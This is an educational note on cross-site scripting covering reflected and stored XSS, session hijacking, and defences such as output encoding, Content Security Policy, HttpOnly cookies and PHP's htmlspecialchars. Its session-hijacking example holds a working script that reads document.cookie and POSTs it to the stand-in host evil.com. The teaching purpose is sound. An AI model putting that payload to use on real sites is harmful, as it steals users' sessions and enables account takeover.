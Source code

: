 > [!idea] Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a type of web application vulnerability that **allows an attacker to inject malicious scripts into web pages** viewed by other users. These scripts can be used to **hijack user sessions, steal sensitive data, deface websites**, or perform other unauthorized actions.
>
> The core issue with XSS is the failure of the web application to properly sanitize user input before rendering it in the browser. This allows attackers to inject client-side scripts that execute in the victim's browser with the same privileges as the legitimate website.

> [!example] Reflected XSS
>
> Reflected XSS occurs when user input is immediately reflected in the web page's response without proper sanitization. A common example is a search field that echoes the user's input as part of the search results page.
>
> ```html
> <!-- vulnerable code -->
> <input type="text" name="query">
> <p>You searched for: <span><!-- user input is inserted here --></span></p>
>
> <!-- attack payload -->
> https://example.com/search?query=<script>/*malicious code*/</script>
> ```
>
> When the user visits the URL with the malicious script injected in the `query` parameter, the script will execute in the victim's browser. This type of XSS is typically non-persistent and requires social engineering to trick users into visiting a specially crafted URL.

> [!example] Stored XSS
>
> Stored XSS, also known as Persistent XSS, occurs when user input is stored on the server (e.g., in a database) and later rendered in web pages without proper sanitization.
>
> ```html
> <!-- vulnerable code -->
> <div>
>   <!-- user input from the database is inserted here -->
> </div>
>
> <!-- attack payload in the database -->
> <script>/*malicious code*/</script>
> ```
>
> When the web page loads the user input from the database, the malicious script will execute in the victim's browser. This type of XSS is more severe as the payload persists and can potentially impact any user viewing the vulnerable page.

> [!example] Session Hijacking with XSS
>
> One common attack enabled by XSS is session hijacking, where the attacker steals the victim's session cookie and impersonates them on the website.
>
> ```js
> // attack payload
> <script>
>   var cookie = document.cookie;
>   fetch('https://evil.com/steal', {
>     method: 'POST',
>     body: cookie
>   });
> </script>
> ```
>
> When the XSS payload executes, it sends the victim's session cookie to the attacker's server. The attacker can then use this cookie to hijack the victim's session and access their account or sensitive data.

> [!consider] Defending Against XSS
>
> Preventing XSS requires proper input sanitization and output encoding on the server-side. Here are some common defense strategies:
>
> - **Input Validation**: Sanitize all user input by removing or escaping potential script tags and other dangerous characters.
> - **Output Encoding**: Encode user input before rendering it in the browser, ensuring that special characters are treated as plain text.
> - **Content Security Policy (CSP)**: Implement a CSP to whitelist trusted sources for scripts and other resources, effectively blocking injected scripts from executing.
> - **HttpOnly Cookies**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them, mitigating session hijacking.
> - **User Education**: Train users to be cautious of suspicious links or emails that may lead to XSS attacks.

> [!consider] Preventing XSS in PHP
>
> In PHP, developers should use built-in functions like `htmlspecialchars()` and `strip_tags()` to sanitize user input before rendering it in web pages.
>
> ```php
> // vulnerable code
> echo "<p>Welcome, " . $_GET['name'] . "!</p>";
>
> // preventing XSS with htmlspecialchars()
> echo "<p>Welcome, " . htmlspecialchars($_GET['name']) . "!</p>";
>
> // preventing XSS with strip_tags()
> echo "<p>Welcome, " . strip_tags($_GET['name']) . "!</p>";
> ```
>
> By default, `htmlspecialchars()` converts special characters like `<`, `>`, and `&` into their respective HTML entities, preventing script injection. `strip_tags()` removes any HTML tags from the input, effectively neutralizing script tags.

> [!consider] Preventing Session Hijacking
>
> To prevent session hijacking, developers should implement the following security measures:
>
> - **HttpOnly Cookies**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them.
> - **Secure Cookies**: Use the `Secure` flag to ensure cookies are only transmitted over HTTPS, preventing eavesdropping on insecure connections.
> - **Regenerate Session IDs**: After successful authentication, regenerate the session ID to mitigate session fixation attacks.
> - **Short Session Timeouts**: Set short session timeouts to minimize the window of opportunity for hijacking.
> - **CSRF Protection**: Implement CSRF protection mechanisms to prevent unauthorized state changes.

> [!consider] Content Security Policy (CSP)
>
> A Content Security Policy (CSP) is an added layer of security that helps mitigate XSS attacks by whitelisting trusted sources for resources like scripts, styles, and images.
>
> ```html
> <!-- Example CSP header -->
> Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com
> ```
>
> In this example, the CSP only allows scripts from the website's origin (`'self'`) and the trusted `https://trusted.com` domain. Any injected scripts from untrusted sources will be blocked by the browser, effectively preventing XSS attacks.
>
> CSPs can be configured to enforce stricter policies, such as disabling inline scripts or eval()-based code execution, further reducing the attack surface for XSS.

This note covers the main concepts of Cross-Site Scripting (XSS), including reflected and stored XSS, session hijacking, and various defense mechanisms like input sanitization, output encoding, Content Security Policy (CSP), and secure cookie handling. Relevant examples and code snippets are provided to illustrate the key ideas.